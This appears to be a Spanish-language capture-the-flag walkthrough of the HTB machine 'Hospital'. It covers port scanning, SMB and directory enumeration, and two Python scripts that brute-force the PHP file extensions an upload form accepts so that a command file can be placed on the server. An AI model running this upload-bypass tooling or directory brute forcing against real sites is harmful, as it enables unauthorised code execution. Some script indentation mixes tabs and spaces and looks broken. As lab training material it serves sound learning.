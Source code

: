 
-----
- TAG: #DOMINIOS #NETEXEC #PYTHON #GOBUSTER
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- Creamos nuestro escript para detectar rutas validas.
```
<?php
  echo "Hola probando";
?>
```

 - Creamos un archi **.py** para enlistar los **.php** con el codigo de estado
```
#!/usr/bin/env python3

import requests
import signal
import sys
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8081'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()

    for extension in extensions:
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
	r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        print(r.status_code)

if __name__ == '__main__':
    fileUpload()
 
```
>Si cambiamos `print(r.estatus_code)` por:
>`if "failed" not in r.headers["Location"]:`
>	    `print(colored(f"\n[+] Extensión {extension}: {r.headers['Location']}", 'green'))`
- Podemos realizar la misma función que realizamos con **burpsuite** utilizando **python**, con esta ultima función nos enlista todas las rutas **succes.php**.
- En este punto con el siguiente código en **python** nos permitiría ejecutar código **.php** en la url con probando con las rutas encontradas:
  `http://hospital.htb:8080/uploads/cmd.phar`
```
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID' : 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
	
    for extension in extensions:
	    p1.status(f"Probando con la extensión {extension}")
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
        r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        if "failed" not in r.headers["Location"]:
	        log.info(f"Extensión {extension}: {r.headers['Location']}")
if __name__ == '__main__':
    fileUpload()
```

- Ahora podriamos enlistar directorios existentes utilizando fuerza bruta usando **gobuster**
```
gobuster dir -u http://hospital.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
